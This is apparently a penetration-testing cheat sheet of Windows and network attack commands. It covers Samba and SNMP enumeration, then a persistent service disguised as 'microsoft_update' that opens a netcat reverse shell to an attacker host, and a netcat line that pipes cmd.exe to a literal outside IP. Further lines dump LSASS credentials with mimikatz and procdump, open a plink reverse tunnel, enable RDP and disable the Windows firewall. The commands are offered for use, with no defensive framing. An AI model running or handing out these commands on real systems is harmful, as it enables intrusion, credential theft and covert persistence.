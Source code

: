 ## Samba Enumeration
{% highlight bash %}
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
{% endhighlight %}

### SNMP Enumeration
{% highlight bash %}
snmpget -v 1 -c public IP 
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
{% endhighlight %}

### Windows Useful cmds
{% highlight bash %}
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits
{% endhighlight %}

### PuTTY Link tunnel
{% highlight bash %}
Forward remote port to local address
plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP
{% endhighlight %}

### Enable RDP Access
{% highlight bash %}
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
{% endhighlight %}

### Turn Off Windows Firewall
{% highlight bash %}
netsh firewall set opmode disable
{% endhighlight %}
